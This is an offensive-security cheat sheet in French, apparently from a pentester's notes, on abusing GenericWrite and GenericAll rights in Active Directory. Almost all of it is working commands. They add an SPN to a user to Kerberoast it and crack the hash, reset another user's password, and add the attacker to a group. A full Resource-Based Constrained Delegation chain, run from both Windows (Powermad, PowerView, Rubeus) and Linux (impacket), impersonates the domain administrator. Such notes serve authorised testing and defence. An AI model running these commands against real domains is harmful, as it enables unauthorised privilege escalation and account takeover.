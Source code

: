 ### 📝 Ajout d'un SPN pour Kerberoasting

Si notre utilisateur a les droits `GenericWrite` ou `GenericAll` sur un objet de l'AD, il est possible de mettre un SPN sur cet objet, ce qui le rend par la suite kerberoastable.

Énumération des droits de notre utilisateur :

```powershell
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -match "notreUser"}
```

Mise en place d'un SPN sur l'utilisateur cible :

```powershell
Set-DomainObject -Identity UtilisateurCible -Set @{serviceprincipalname='us/hackedBro'}
---
Set-ADUser -Identity UtilisateurCible -ServicePrincipalNames @{add='us/hackedBro'}
```

[Kerberoasting](../Kerberoasting.md) de l'utilisateur :

```powershell
Rubeus.exe kerberoast /outfile:target.txt
```

Cracking du hash :

```bash
hashcat '$tgs' /ush/share/wordlist/rockyou.txt
```

#### Changement direct de mot de passe avec `GenericAll`

Avec le droit `GenericAll`, il est possible de changer directement le mot de passe de l'objet sur lequel le droit s'applique, mais cette action est beaucoup moins "safe" que d'ajouter un SPN :

```powershell
net user userCible password /domain
```

#### Ajout à un groupe avec `GenericAll`

Si le droit `GenericAll` s'applique sur un groupe, il est possible de s'ajouter dans ce groupe :

```powershell
net group "groupe" user /add /domain
```

---
### 📝 GenericWrite sur un compte machine

Ce droit permet d'abuser de la Resource-Based Constrained Delegation (RBCD).
#### 🍔 Depuis Windows

Pour exploiter ce droit, nous avons besoin des scripts `powermad.ps1` et `[PowerView](../../../Cheatsheets/Tools/PowerView.md)`.

Création d'un compte machine :

```powershell
import-module powermad
New-MachineAccount -MachineAccount paked -Password $(ConvertTo-SecureString 'Sup3P4ssw0rd!' -AsPlainText -Force) -Verbose
```

Vérification de la création du compte :

```powershell
Get-DomainComputer
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```powershell
$ComputerSid = Get-DomainComputer paked -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $cible | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Récupération du hash du compte machine créé :

```
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```powershell
rubeus.exe s4u /user:paked$ /aes256:<aes256> /aes128:<aes128> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/cible /domain:domain.local /ptt /altservice:http/cible
```

#### 🐧 Depuis Linux

Création d'un compte machine :

```bash
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass '$password' -dc-host $dc -domain-netbios $DOMAIN 'domain.local\$user:$password'
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```bash
impacket-rbcd -delegate-from 'paked$' -delegate-to 'cible$' -dc-ip '$dc$' -action 'write' 'domain.local'/'$utilisateur':'$Password'
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```bash
impacket-getST -spn 'cifs/$cible' -impersonate Administrator -dc-ip '$dc' 'domain.local/paked$:$password'
```
